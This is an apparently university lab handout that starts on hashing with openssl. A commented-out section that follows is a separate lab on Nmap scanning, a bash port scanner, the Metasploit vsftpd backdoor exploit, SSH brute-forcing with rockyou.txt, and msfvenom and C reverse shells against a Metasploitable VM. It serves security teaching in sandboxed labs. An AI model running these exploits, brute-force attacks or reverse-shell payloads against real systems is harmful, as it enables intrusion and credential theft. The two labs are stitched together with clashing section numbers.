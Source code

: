 # Lab 1: Hashing and Blockchain

## 1.1. Introduction
There are many fundamental concepts in cryptography and cybersecurity, hashing and blockchain are among one of those. In this lab, we will explore the concept of hashing and blockchain and their applications. We will start with hashing.

## 1.2. Hashing
Hashing is a process of mapping data of arbitrary size to data of fixed size. The output of a hash function is called a hash value, hash code, hash sum, or simply hash. Hashing is used in many applications, such as password storage, digital signatures, and blockchain. Hash functions have the properties of being quick, irreversible, and collision free (i.e., no two messages will end up with the same hash value). 

### 1.2.1. Hashing Algorithms
There are many different hashing algorithms used in practice, such as MD5, SHA-1, SHA-2, and SHA-3. We will experiment with some of those algorithms in this lab. For this, we will use the Kali Linux VM. You should have openssl already on your VM, check by typing `openssl` in the terminal. If not, you can install it by typing `sudo apt install openssl`. If properly installed, you should see something like below when you type in `openssl help` in the terminal:

<figure><img src="./img/hash_openssl.png" alt=""><figcaption></figcaption></figure>

To use hashing algorithms, we will use the digest command in openssl:
    
    ```
    openssl dgst -[hashing algorithm] [file]
    ```

For example, to hash the file `test.txt` using MD5, type:

    ```
    openssl dgst -md5 test.txt
    ```

It will look something like below:

<figure><img src="./img/hash_md5.png" alt=""><figcaption></figcaption></figure>


<!-- {% hint style="danger" %}
READ: Any knowledge and techniques presented here are for your learning purposes only. It is **ABSOLUTELY ILLEGAL** to apply the learned knowledge to others without proper consent/permission, and even then, you must check and comply with any regulatory restrictions and laws.
{% endhint %}

The aim of this lab is to introduce you to some useful network exploit concepts and tools commonly used to get familiar with attack styles, as well as practice Linux commands from Lab 0 in the context. In addition, to have a better understanding about the underlying mechanisms of tools, unlike in CITS1003 where we just used tools to observe outcomes.

{% hint style="info" %}
This means it is essential to have a deeper understanding of tools and how they operate rather than only learning what tools and scripts to use in given scenarios. This applies to all the labs we will do in this unit, so please remember!
{% endhint %}

The tools we will cover are: `nmap` and `metasploit`, the tools that are often used to gather information and gain the first step into the target host(s). Those tools are already installed on your Kali Linux. Of course, we will cover more useful and interesting tools later on as well.

{% hint style="info" %}
In this lab, we will be running at least two VMs: Kali and metasploitable.
{% endhint %}

## 1.0. vulnerable VM: metasploitable

First, we will set up a vulnerable VM named [_metasploitable_](https://docs.rapid7.com/metasploit/metasploitable-2) (click the link and download the VM).

If your machine uses an Intel chip AMD64, you can move on to the next tasks.

If your machine uses an Apple Silicon ARM64, you must do the following tasks to run metasploitable on UTM:

1. Install [brew](https://brew.sh/) if not done already
2. Install qemu if not done already: `brew install qemu`
3. Navigate to the directory containing the metasploitable image file you downloaded
4. Convert image:\
   `qemu-img convert -p -O qcow2 Metasploitable.vmdk Metasploitable.qcow2`
5. Open UTM: add new -> Emulate -> Other -> skip ISO
6. Settings -> remove drive
7. Settings -> QEMU -> untick "UEFI boot"
8. Settings -> add drive -> select the created image (`.qcow2` file) from step 4
9. Start the VM

Please note, that the VMs used in the lab should be able to reach each other (test using `ping`).

## 1.1. Port Scan using Bash

First, let's create our own port scanner using a bash script to understand how a script may be created and be used.

This only works on new versions of Bash (which is the case with Kali). If you are not using Kali, you can test by following the steps below:

1. start a netcat listener on terminal 1: `nc -vnlp 4444`
2. On a different terminal (terminal 2), start a bash session: `bash`
3. Still on terminal 2, send a message using the cat command:\
   `cat >/dev/tcp/localhost/4444`
4. From terminal 1, you should see a connection message
5. You can press `ctrl + C` to end

If you do not see the connection message at step 4, then you need to upgrade your Bash version (or use Kali for simplicity). If you attempt to connect to a closed port, you will simply receive a "Connection refused" message.

So we have a basic understanding of using Bash and open ports from the above example, so now we can create our own port scanner Bash script!

Download the portscan.sh script:

```
wget https://github.com/uwacyber/cits3006/raw/2023S2/cits3006-labs/files/portscan.sh
```

The code is also shown below, which you should read through and try to understand what it is trying to do.

```bash
#!/bin/bash
if [ $# -ne 1 ]
then
    echo "Usage: `basename $0` {IP address or hostname}"
    exit 1
fi

# define a variable and set it to the value passed as the first argument ($1)
ip_address=$1
# write the current date to the output file
echo `date` >> $ip_address.open_ports

# for loop, where “i” starts at 1 and each time increments up to 65535
for port in {1..65535}
do
    # use a short timeout, and write to the port on the IP address
    timeout 1 echo >/dev/tcp/$ip_address/$port
    # if that succeeded (checks the return value stored in $?)
    if [ $? -eq 0 ]
    then
        # append results to a file named after the date and host
        echo "port $port is open" >> "$ip_address.open_ports"
    fi
done
```

{% hint style="info" %}
If the above code is hard to follow, please revise the scripting materials (e.g., CITS2003).
{% endhint %}

Remember to add executable permission:

```
chmod +x portscan.sh
```

Now we can run it, let's run it against the metasploitable VM (check its IP address by running `ifconfig`):

```
./portscan.sh [target IP]
```

Note that this is quite slow (give it a few mins), but once done, it will create a result file `[target IP].open_ports`. You can run the script against other VMs if you have, or locally by inputting `localhost`.

![](<../.gitbook/assets/image (6) (1) (1) (1).png>)

We just created our own port scanner using Bash!

The underlying principle is the same, the tools we will cover next will have some scripts that carry out the specified tasks like above, which are just automatically ran through the tool commands.

## 1.2. Nmap

Since writing scripts ourselves is inefficient, we now will have a look at a tool named _Nmap_.

Nmap is an open-source tool for network exploration and security auditing. It inspects raw IP packets to find various information about the network and systems, including services (name and version), OS and versions, firewalls, and more. Nmap is useful for system administration (e.g., network inventory, service upgrades, monitoring, etc.), but of course, it is also useful for malicious purposes.

The first intuitive use of Nmap is to scan the network to find (a potentially vulnerable) host(s). This can be done by scanning the IP range.

`$ nmap -sn [target IP range]`

e.g.,

```
nmap -sn 192.168.64.0/24
```

![](<../.gitbook/assets/image (3) (1) (1) (1) (1).png>)

Here, the flag `-sn` indicates that it uses ping to check whether the host exists or not. So this is basically a script that runs a ping command to the given network address(es)! There are other flags that could be used, which you can find more from [>>here<<](https://nmap.org/book/man-briefoptions.html).

One of the listed addresses should be your victim machine (metasploitable VM).

{% hint style="warning" %}
If you don't see your metasploitable VM in the list, please check your network settings.
{% endhint %}

Now we have discovered our target machine, we can scan to see which ports are open (i.e., what services are running).

```
nmap -sV -O -T4 192.168.64.5
```

{% hint style="warning" %}
Find out what those flags mean.
{% endhint %}

Then we should be able to see something like:

![](<../.gitbook/assets/image (6) (1) (1) (1) (1).png>)

So we have used Nmap to discover hosts in the network, and also scan them to find services and OS details. Just remember, Nmap is just executing a bunch of scripts like we wrote in the previous section, just automated. So you can always dig through its exploit database and have a look at the details of those attacks (because it is open-source, it is possible).

Now we will move on to gaining access by exploiting some of the vulnerabilities associated with the services we found.

## 1.3. Metasploit

For this part of the lab, we will carry out a few exploits using the Metasploit framework. The Metasploit framework is essentially (and also) a collection of scripts that performs the described exploit, and most scripts are targeting vulnerabilities on networks and servers. The Metasploit framework is open-source, so it can also be customised to various needs. So let's have a look at a few exploit examples in this lab.

First, you may need to update it to the latest version.

```
sudo apt update -y; sudo apt install metasploit-framework -y
```

From the nmap scan above, we have discovered the IP address of our target (metasploitable VM) machine and the services running. The first one we will exploit is the one at the top at port 21 - the FTP service.

### 1.3.1. Exploit FTP

The Nmap scan revealed the version of the FTP on the target machine. If you search for vulnerabilities associated with the given version `vsftpd 2.3.4`, you will quickly discover that there is a backdoor vulnerability (more precisely, [`CVE-2011-2523`](https://www.cvedetails.com/cve/CVE-2011-2523/)). The CVSS Score is 10, indicating that the impact of this vulnerability is severe.

Since it's there, we'll exploit it. Launch the Metasploit from the terminal:

```vim
msfconsole
```

![](<../.gitbook/assets/image (5) (1) (1) (1) (1).png>)

From the msfconsole, we can search for the identified service-related exploits

```
use vsftpd
```

![](<../.gitbook/assets/image (4) (1) (1) (1) (1) (1).png>)

In fact, there is only one exploit (the backdoor one) available, so it will be automatically be selected. If it is not automatically selected, just type: `use 0` (i.e., the number 0th exploit) to select it.

{% hint style="info" %}
If you already know the exploit to use and its path, you can type in:

`use [path to the exploit]`
{% endhint %}

Next, we need to check options to see what inputs the exploit requires.

```
show options
```

![](<../.gitbook/assets/image (2) (1) (1) (1) (1).png>)

The exploit is actually simple, and only requires the target host's IP address. So set the RHOST with the target IP address found using Nmap (the RPORT is already set, but if the FTP service runs on a different port or if the RPORT is not set, you can update/set it).

```
set RHOST 192.168.64.5
```

![](<../.gitbook/assets/image (1) (1) (1) (1).png>)

All options are set, so now we can run the exploit by simply typing `run`.

![](<../.gitbook/assets/image (2) (1) (1) (1) (2) (1).png>)

{% hint style="info" %}
The exploit may fail (as shown above), but you can simply run it again.
{% endhint %}

Now you have a remote shell on your target host! Try navigating, creating files, deleting files etc., and observe from your metasploitable VM to see those changes.

#### How does this exploit work?

This vulnerability came about when someone had uploaded a modified version of `vsftpd` to the master site and some users downloaded this version for their systems (i.e., it came with the backdoor). The backdoor opened port 6200 to give the attacker a command shell.

This showed the importance of authentication and authorisation (don't let anyone upload/update important data) and also the ability to check and approve changes.

#### Finishing

Finally, you can press `ctrl + C` to end the session. If you are finished with the exploit, you can type `back` to go back to the main `msfconsole` menu.

### 1.3.2. Exploit SSH

Okay, so the previous one is highly unlikely given the vulnerable service is more than a decade old and people have moved on. So let's try some other exploits against a more common service - SSH!

We assume we don’t know the credentials to log in to the metasploitable VM, so we must figure out both the username and password to gain access.

From Nmap scans, we know that the SSH service is running on port 22. However, its version is `OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)`. The protocol 1.0 had lots of bugs that could have been exploited easily, but 2.0 is much more secure. So instead, we will attempt a bruteforce attack.

Like before, we begin by searching for `ssh` related exploits in the Metasploit console:

```
search ssh
```

![](<../.gitbook/assets/image (4) (1) (1) (1) (1).png>)

... But there are too many! So let's reduce the selection to `ssh_login`:

```docker
search ssh_login
```

![](<../.gitbook/assets/image (6) (1) (1) (1) (2).png>)

Two shows up, and we will use the first one and check the options:

```
use 0
show options
```

![](<../.gitbook/assets/image (3) (1) (1) (1).png>)

Like before, set the `RHOST` to be the target IP address. In addition, we must also provide the wordlist for username and password (you can either provide a single file that contains the pairs in `USERPASS_FILE`, or separately to try all pairs from the two files for `USER_FILE` and `PASS_FILE`). You can also read other option descriptions to change as necessary. For our bruteforce attack, we will use a `USERPASS_FILE` that comes with Metasploit.

```
set USERPASS_FILE /usr/share/metasploit-framework/data/wordlists/piata_ssh_userpass.txt
```

![](<../.gitbook/assets/image (9) (3).png>)

At this point, we can run the exploit (you can try, but it will take a while because its bruteforce, took me about 15 mins to finish). Since we know the credentials (msfadmin/msfadmin), we can shorten the waiting time by creating a shortened userpass file from the original file above (i.e., delete bunch of lines but keep the actual credential). Once run, you should eventually get to this:

![](<../.gitbook/assets/image (1) (1) (2) (1).png>)

{% hint style="info" %}
You would notice that this is SSH session 3, meaning I did find two other credentials that could be used to SSH to the metasploitable VM. Which ones do you think they are?
{% endhint %}

At this stage, you can use the credentials found to SSH into the victim machine. However, this bruteforce attack is quite inefficient because we have to guess both username and password. Imagine each credential login attempt takes 1 second, how long would it take to try 1 million credential pairs? To get a better picture, the widely used password wordlist `rockyou.txt` contains about 14 million passwords! So we must find a better way than trying to guess both username and password. This brings us to the next method.

We are going to revisit Nmap here, because one of the services running was `Samba smbd` (an innocent server daemon that provides filesharing and printing services), which can be exploited to reveal users! So run Nmap:

```
nmap -script smb-enum-users.nse -p 445 [target IP address]
```

{% hint style="info" %}
The script is basically enumerating through users' RIDs that uniquely identifies a user on a domain or system. The username is found because LSA function is exposed, which is used to convert RID to the username.
{% endhint %}

If you scroll down the list, you will find that the user “msfadmin” is the one that is not disabled! So we can use this information back in our `ssh_login` options!

We will also use the `rockyou.txt` password wordlist file that contains a lot of commonly used passwords. It comes with Kali at `/usr/share/wordlists`, you just have to extract it:

```
sudo gzip -dk /usr/share/wordlists/rockyou.txt.gz
```

Once done, remove the USERPASS file and set USERNAME and PASS\_FILE.

```
unset USERPASS_FILE
set PASS_FILE /usr/share/wordlists/rockyou.txt
set USERNAME msfadmin
```

![](<../.gitbook/assets/image (5) (1) (1) (1).png>)

Now the bruteforce attack only has to guess the password!

{% hint style="info" %}
Although we have technically improved the attack speed, we are still (at the end of the day) bruteforcing – which is practically impossible nowadays. Such attacks can be mitigated easily by limiting the number of attempts within a given period of time, as well as enforcing multi-factor authentications.
{% endhint %}

### 1.3.3. Reverse Shell

The Metasploit also comes with tools to create vulnerable executable scripts/files using `msfvenom` module. For our instance, we will create a reverse shell using python code:

```
msfvenom -p python/shell_reverse_tcp LHOST=[attacker IP address] LPORT=[attacker listening port]
```

![](<../.gitbook/assets/image (3) (1) (1).png>)

The payload created is a python executable code, which you can execute from your victim host. You will also notice that `msfvenom` applied code obfuscation techniques so that you cannot directly read the payload to understand exactly what this code is doing.

{% hint style="info" %}
For this exercise, I just cloned my Kali VM and used it as the target. You can do similar, or run an existing VM and test also (should work on any OS).
{% endhint %}

But before you run the script (it will fail as you would have found out), you must first listen for activities from your attacker machine:

```
nc -lvnp 443
```

We set 443 to be the incoming port from the target host, so we listen on this port and wait until the target host executes the script. If this port isn't working for you, you can try a different port e.g., 4444. So now, let's execute the script from the target host:

```
python -c "[copy and paste payload here]"
```

![Left, you see the target host terminal. Right, you see the attacker terminal that got the reverse shell!](<../.gitbook/assets/image (4) (1) (1) (1).png>)

{% hint style="info" %}
Usually, the attacker will place the payload into an executable file (and likely autorun it). Such malicious payload can be created for various types of applications, not just Python (could be PHP, Java, .exe for Windows etc.). Also, there are many ways to hide such payload (masquerading, obfuscations etc.) – still a big issue today!
{% endhint %}

The above example would be considered _malware_. The `msfvenom` can be used to create various payloads to do malicious tasks so have a look at its library and explore (please do NOT use them other than on your own sandboxed/virtualised environments)!

### 1.3.4. Write our own Reverse Shell

So now we understand the tool can create reverse shell payloads for various applications, but how exactly does it work? Let's find out!

First, download the reverse shell files:

```
wget https://github.com/uwacyber/cits3006/raw/2023S2/cits3006-labs/files/rshell.zip
```

![](<../.gitbook/assets/image (4) (1) (1).png>)

Unzip using the `unzip` command.

Let's test it first, we have to update the attacker's IP address in the `victim.c` (at line 27) code (you can update the port too if you want, but make sure to do it on both files).

Once done, we can now compile the c codes using the makefile provided (if you have binaries in the zip, delete them and recompile).

![](<../.gitbook/assets/image (1) (2) (1).png>)

We can do this on a single machine, but you can also move the victim code to a different VM (remember to recompile if different architecture).

![For this example, I used two VMs - Kali (hacker) and Ubuntu (victim)](<../.gitbook/assets/image (8) (1) (1) (1).png>)

So it works! Let's have a closer look at the code, starting with the `hacker.c` file.

There isn't much to this code really (i.e., typical socket handling in c), the most interesting part is from lines 83 to 105:

![](<../.gitbook/assets/image (5) (1) (1) (2).png>)

This is where we prepare for command transmission (lines 93 - 96), and send the command (lines 99 - 103). Now let's have a look at the victim's code in `victim.c` file.

![](<../.gitbook/assets/image (7) (1) (1).png>)

Again, nothing much in the code other than typical socket coding for the client, BUT look at lines 61 - 63. This is where the reverse shell happens:

1. the [`dup2` function](https://man7.org/linux/man-pages/man2/dup.2.html) takes two arguments `oldfd` and `newfd`, where the two [file descriptors](https://en.wikipedia.org/wiki/File\_descriptor) (fd) are made equivalent (i.e., you can use either). For example, After `dup2(socket_id, 0)`, whatever file was opened on the descriptor `socket_id` is now also opened (with the same mode and position) on the descriptor `0`, i.e. on standard input.
2. This is applied to all other file descriptors 1 and 2 representing the standard output and the standard error, respectively.

This means all the `stdio` are redirected to the socket that is sent to the attacker (bad)!

{% hint style="info" %}
In normal server code, this is where the server would respond to the client with the response. But instead, since the victim's `stdio` are all redirected to the socket to the attacker, the attacker can now also _send_ commands back to the victim host (which is very bad!).
{% endhint %}

However, this code does not have any obfuscation, which means it is very easy to detect such code in use and be filtered/blocked. Hence, Metasploit tries to obfuscate the payload generated to hide such malicious code (but the detection mechanisms can also have their own techniques to look through obfuscations, albeit the performance varies).

## 1.4 Summary

In this lab, we covered two useful tools, Nmap and Metasploit. There were additional exercises to better understand how such tools work (port scanner and reverse shell) to provide a deeper understanding of different exploit techniques.

Next up, Malware.

{% hint style="info" %}
PREPARATION: the next lab uses a new VM - Windows. The ISO file is HUGE (\~10GB), so please download and set up the Windows VM before going to the lab.
{% endhint %} -->
